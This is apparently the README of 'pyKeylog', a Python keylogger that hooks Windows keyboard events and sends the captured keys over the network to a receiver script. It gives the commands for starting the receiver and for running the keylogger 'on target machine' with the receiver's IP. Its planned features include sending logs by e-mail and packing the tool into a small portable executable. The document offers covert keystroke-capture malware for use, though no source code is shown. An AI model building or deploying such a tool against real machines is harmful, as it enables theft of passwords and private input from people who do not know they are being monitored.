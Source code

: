 # pyKeylog

## Description
A simple keylogger written in Python 3.x using Answeror/pyhook_py3k, including a guide to how I got it to work on Windows 10. It is a very simple keylogger (keylog.py), using pyHook to hook keyboard events, and send them to a reciever (keyrec.py) that outputs the keys.
More features will be added later.

## Usage
First start the reciever, and then run the keylogger on target machine.
### Reciever
```
python3 keyrec.py
```
### Keylogger
```
python3 keylog.py IP_OF_RECIEVER
```

## Planned features
Writing to file
More methodes for sending loggs (e-mail)
Find a way to turn the keylogger inot a small, portable executable
